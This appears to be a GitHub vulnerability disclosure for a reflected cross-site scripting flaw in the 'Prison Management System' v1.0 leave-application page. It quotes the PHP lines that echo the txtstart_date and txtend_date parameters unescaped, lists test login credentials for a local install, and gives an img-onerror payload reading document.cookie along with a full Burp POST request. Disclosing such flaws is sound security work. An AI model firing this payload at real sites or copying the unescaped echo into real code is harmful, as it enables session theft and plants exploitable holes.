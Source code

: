 # Prison Management System
## XSS on `/Employee/apply_leave.php`

### Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://127.0.0.1/prison/Account/login.php
releaseme@gmail.com
escobar2012
```

### Affected Page:

```
/Employee/apply_leave.php
```

The parameter `txtstart_date` and `txtend_date` are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

```jsx
169: <?php if (isset($_POST['txtstart_date']))?><?php echo $_POST['txtstart_date']; ?>

173: <?php if (isset($_POST['txtend_date']))?><?php echo $_POST['txtend_date']; ?>
```

### Proof of Concept:

Payload:

```jsx
"><img+src%3d1+onerror%3dalert(document.cookie)>
```

Burp Request:

```jsx
POST /prison/Employee/apply_leave.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 79
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/prison/Employee/apply_leave.php
Cookie: PHPSESSID=s12tp6ej1l5r65iapelk58b1lg
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

txtstart_date=2000-01-01"><img+src%3d1+onerror%3dalert(document.cookie)>&txtend_date=2000-01-03&cmdreason=Study+Leave&btnapply=
```

### Screenshot

![image](https://github.com/zyairelai/CVE-submissions/assets/49854907/40ffd010-497c-4d1c-a83e-edf3a248f503)

